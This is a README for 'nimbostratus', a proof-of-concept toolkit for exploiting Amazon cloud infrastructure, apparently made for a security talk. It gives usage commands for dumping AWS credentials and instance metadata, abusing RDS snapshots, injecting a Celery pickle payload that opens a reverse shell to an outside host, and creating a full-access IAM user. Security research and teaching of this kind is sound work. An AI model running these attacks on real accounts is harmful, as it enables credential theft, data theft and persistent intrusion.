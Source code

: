 Nimbostratus
============

Tools for fingerprinting and exploiting Amazon cloud infrastructures. These tools are a PoC
which I developed for my "Pivoting in Amazon clouds" talk, developed using the great 
[boto](https://github.com/boto/boto) library for accessing Amazon's API.

Feel free to report bugs, fork and send pull-requests. You can also drop me a line at
[@w3af](https://twitter.com/w3af).

Installation
============

```bash
git clone git@github.com:andresriancho/nimbostratus.git
cd nimbostratus
pip install -r requirements.txt
```


Usage
=====

Providing AWS credentials
-------------------------

Some `nimbostratus` sub-commands require you to provide AWS credentials. They are
provided using the following command line arguments:

 * `--access-key`
 * `--secret-key`
 * `--token` , which is only used when the credentials were extracted from the instance profile.

Dump credentials
----------------

Identify the credentials available in this host and prints them out to the console.
This is usually the first command to run after gaining access to an EC2 instance.

```console
$ nimbostratus dump-credentials
...
```

Once you've got the credentials from an EC2 instance you've exploited, you can continue to work from any other
host with internet access (remember: EC2 instances are in many cases spawned for a specific work and then terminated).

*IMPORTANT*: This will extract information from `boto`'s credential configuration sources
and from the instance meta-data. If the system uses other libraries to connect to AWS
the credentials won't be dumped.


Dump permissions
----------------

This tool will dump all permissions for the provided credentials. This tool is commonly used
right after `dump-credentials` to know which permissions are available for you.

```console
$ nimbostratus dump-permissions --access-key=... --secret-key=...
...
```

Dump instance meta-data
-----------------------

All EC2 instances have [meta-data](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/AESDG-chapter-instancedata.html)
which is accessible via [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/). This
tool will extract all the important information from the metadata and show it to you.

Keep in mind that each EC2 instance has his own `http://169.254.169.254/` meta-data
provider and running this command on different instances will yield different results.

```console
$ nimbostratus dump-ec2-metadata
...
```

Create DB snapshot
------------------

In some cases you've got Amazon credentials which allow you to access the [RDS](http://aws.amazon.com/rds/) API but
don't have any access to the database itself (MySQL user). This tool allows you to access the information stored in
that database by creating a snapshot and restoring it.

```console
$ nimbostratus snapshot-rds --access-key=... --secret-key=... \
                            --password=changeme --rds-name==db_name
...
```

Inject raw Celery message
-------------------------

Celery warns developers about the [insecure pickle](http://docs.celeryproject.org/en/latest/userguide/security.html#serializers)
serialization method, but of course you'll find deployments like this in real life. This tool will check if the instance
where this tool is being run has access to SQS, if that SQS has a Celery queue, verify that the Queue is using pickle and
finally inject a raw message that will execute arbitrary commands when un-pickled.

```console
$ nimbostratus celery-pickle-exploit --access-key=... --secret-key=... \
                                     --queue-name=celery --region=ap-southeast-1 \
                                     --reverse=1.2.3.4:4000
...
```

Create new user
---------------

If you've got credentials which allow you to create a new user using [IAM](http://aws.amazon.com/iam/) this tool will
create it (with permissions to access all Amazon resources) and return API key and secret.

```console
$ nimbostratus create-iam-user --access-key=... --secret-key=...
...
```



What's a `nimbostratus` anyways?
================================

[nimbostratus](http://en.wikipedia.org/wiki/Nimbostratus_cloud) is a type of cloud, if you ever started a project you know how hard it is to name it... so I just chose something that sounded "cool" and was "cloud-related".
